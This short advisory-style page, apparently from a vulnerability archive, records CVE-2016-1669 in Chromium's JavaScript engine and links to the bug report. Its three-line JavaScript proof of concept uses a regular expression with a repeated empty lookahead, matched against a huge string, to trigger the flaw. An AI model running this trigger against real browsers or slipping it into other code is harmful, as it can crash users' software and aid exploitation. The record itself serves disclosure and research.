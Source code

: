 # CVE-2016-1669

- Date: Apr 2016
- Credit: Choongwoo Han

## PoC

```javascript
r2 = new RegExp("(?=)*", "g");
s0 = Array(220000700).join('a'); // the size could be different
result = s0.match(r2);
```

## Reference

- [Issue](https://bugs.chromium.org/p/chromium/issues/detail?id=606115)
